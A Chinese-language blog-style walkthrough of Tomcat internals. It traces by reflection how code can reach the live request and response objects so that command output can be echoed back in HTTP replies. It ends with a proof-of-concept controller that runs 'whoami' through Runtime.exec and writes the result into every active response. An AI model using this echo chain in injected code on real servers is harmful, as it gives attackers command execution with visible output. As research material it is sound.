# 前言

在之前看过一些通过tomcat或者spring写回显，但是只是简单的记录了一下exp，没有具体的分析，最近突然想跟着分析一下怎么获取到的request和response对象

# 分析

在我们启动tomcat后（这里我直接用spring起了），会调用一个doRun方法



跟进这里的process方法，往下走一直到705行，createProcessor方法



跟进来后，来到了AbstractHttp11Protocol的createProcessor方法（这里继承关系有点复杂，直接debug跟进来就是了）



会去实例化一个Http11Processor对象



因为Http11Processor继承字AbstractProcessor，所以会先去实例化它的父类

在AbstractProcessor中看到了需要的request和response对象，并且是由final修饰符修饰的，说明这里一旦赋值就不会被改变



那只要我们获取到Http11Processor这个类，就能拿到request和response对象

这里只是代码运行时有了一个Http11Processor对象，但是，我们要获取到它，就需要找到这个processor在哪儿存储，回到最开始的process方法，向下步进一行，跟进这里的register



另外还需要知道一个东西，就是request对象里面也是有response对象的


来看看register里面的东西



这里将我们获取到的processor进行传递，通过processor.getRequest().getRequestProcessor()获取到一个RequestInfo对象，为rp

然后调用rp.setGlobalProcessor将this.global传递进去



调用了addRequestProcessor


再把这个RequestInfo（就是前面获取到的RequestInfo，地址都是一样的）添加到processors



这里的processors是一个RequestInfo类型的数组，相当于一个ArrayList里面存储了一些RequestInfo类型的数据

所以现在是Request对象里面有Response对象，然后通过Request对象获取到了一个RequsetInfo对象，再通过`rp.setGlobalProcessor(this.global)`将RequestInfo添加进RequestGroupInfo的processors中去


而这里的global变量就是RequestGroupInfo对象，所以目前我们的思路就是

获取global变量 ->RequestInfo->Request-->Response



接下来看看这个global变量是怎么来的



是在AbstractProtocol中的一个内部类ConnectionHander中在处理的时候就将当前的Processor的信息存储在了global中

再往后需要寻找存储`AbstractProtocol`类或继承`AbstractProtocol`类的子类，ctrl+H



接下来看网上师傅们是在调用栈里去寻找的

在CoyoteAdapter中的connector看到了很多与request相关的操作，然后就去找到了那个connector





最后中connector类中找到了ProtocolHandler类型的参数protocolHandler



在上面的继承关系也可以看到，AbstractProtocol实现了这个接口，可以看一下继承了ProtocolHandler的类，其中与HTTP11有关的也都继承了AbstractProtocol

所以获取request的处理请求是

```
Connector--->AbstractProtocol$ConnectoinHandler--->global--->RequestInfo--->Request--->Response
```

这里还需要了解tomcat启动的时候会讲connector放进service



addConnector，方法实现在StandardService



那么这时候如何获取`StandardService`成为了问题的一大关键。

文中给出的方法是从`Thread.currentThread.getContextClassLoader()`里面获取`webappClassLoaderBase`，再获取上下文中的 `StandardService`

我们可以来看看Thread.currentThread.getContextClassLoader()里面有一些什么东西



里面的context中还有一个context


然后里面有Connector对象，这样就可以一步一步通过反射去获取到Request对象，只需要根据这里面的值去写即可

# 编写POC

但是写的时候有一些地方要注意

这里需要去强制转换成StandardContext对象

```
StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

其次就是获取Connector对象的时候，这里是个数组

```
Connector[] connectors = (Connector[]) connector.get(standardService);
```

接下来就是直接获取AbstractProtocol的内部类发现思路不通，应该采用`getDeclaredClasses`方法获取某类中所有内部的内部类遍历，判断类名的长度定位到该类

```
Class<?>[] Abstractprotocol_list = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();
for (Class<?> aClass : Abstractprotocol_list){
    if(aClass.getName().length()==52){
    ......
    }
```

然后Connector的protocolHandler可以直接通过getProtocolHanlder方法获取，而且在获取global的时候，反射使用get方法必须传递实例

```
Method getHandlerMethod = AbstractProtocol.class.getDeclaredMethod("getHandler",null);
getHandlerMethod.setAccessible(true);
Field global = aClass.getDeclaredField("global");
global.setAccessible(true);
RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandlerMethod.invoke(connectors[0].getProtocolHandler(),null));
```

获取到`Request`需要调用`request.getNote(1);`转换为`org.apache.catalina.connector.Request`的对象

```
通过调用 org.apache.coyote.Request#getNote(ADAPTER_NOTES) 和 org.apache.coyote.Response#getNote(ADAPTER_NOTES) 来获取 org.apache.catalina.connector.Request 和 org.apache.catalina.connector.Response 对象
```

```
org.apache.coyote.Request request = (org.apache.coyote.Request) req.get(requestInfo1);
org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);
org.apache.catalina.connector.Response response = request1.getResponse();
```

最后通过缓冲器读出来，tomcat的write函数可以直接通过ascii码输出字符

```
InputStream inputStream = Runtime.getRuntime().exec("whoami").getInputStream();
BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
int a;
while ((a = bufferedInputStream.read())!=-1){
    response.getWriter().write(a);
}
```

也可以直接用println

```
InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
InputStreamReader inputStreamReader = new InputStreamReader(whoami);
BufferedReader bis = new BufferedReader(inputStreamReader);
String b = null;
while ((b = bis.readLine())!=null){
    response2.getWriter().println(b);
}
```

最后的poc

```
package com.example.spring.Controller;

import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.core.StandardService;
import org.apache.catalina.loader.WebappClassLoader;
import org.apache.catalina.loader.WebappClassLoaderBase;

import org.apache.coyote.*;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.List;

@Controller
public class AAAController {
    @RequestMapping("/aaa")
    @ResponseBody
    public void aaa() throws Exception {
//        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) java.lang.Thread.currentThread().getContextClassLoader();
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
        context.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) context.get(standardContext);

        Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
        service.setAccessible(true);
        StandardService standardService = (StandardService) service.get(applicationContext);

        Field connector = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
        connector.setAccessible(true);
        Connector[] connectors = (Connector[]) connector.get(standardService);
        
        Class<?>[] Abstractprotocol_list = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();
        for (Class<?> aClass : Abstractprotocol_list){
            if(aClass.getName().length()==52){
                Method getHandlerMethod = AbstractProtocol.class.getDeclaredMethod("getHandler",null);
                getHandlerMethod.setAccessible(true);

                Field global = aClass.getDeclaredField("global");
                global.setAccessible(true);
                RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandlerMethod.invoke(connectors[0].getProtocolHandler(),null));

                Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                processors.setAccessible(true);
                List<RequestInfo> requestInfoList = (List<RequestInfo>) processors.get(requestGroupInfo);

                Field req = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                req.setAccessible(true);

                for (RequestInfo requestInfo1 : requestInfoList){
                    org.apache.coyote.Request request = (org.apache.coyote.Request) req.get(requestInfo1);
                    org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);
                    org.apache.catalina.connector.Response response = request1.getResponse();
                    response.getWriter().write("11");
                    InputStream inputStream = Runtime.getRuntime().exec("whoami").getInputStream();
                    BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
                    int a;
                    while ((a = bufferedInputStream.read())!=-1){
                        response.getWriter().write(a);
                    }
                }

            }
        }

    }
}
```




参考链接：

https://www.cnblogs.com/nice0e3/p/14891711.html

https://segmentfault.com/a/1190000022261740

https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3

